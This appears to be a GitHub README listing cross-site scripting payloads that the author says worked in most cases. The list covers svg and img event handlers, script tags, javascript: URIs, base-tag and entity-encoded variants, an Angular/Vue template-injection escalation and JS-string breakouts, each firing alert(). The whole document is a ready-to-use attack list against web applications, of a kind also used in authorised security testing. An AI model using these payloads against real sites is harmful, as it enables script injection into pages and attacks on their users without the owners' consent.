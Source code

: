 <h1> 🚀Most Common Working Payloads </h1>
<h2> This is list of XSS Payloads that worked in most cases for me </h2>

```html "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
```html "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
```html <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
```html <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
```html </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
```html "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
```html {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
```html <BODY onload=alert(1)>``` - Body Payload </br>
```html <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
```html &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
```html <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```

<h2>by Kira Reys </h2>
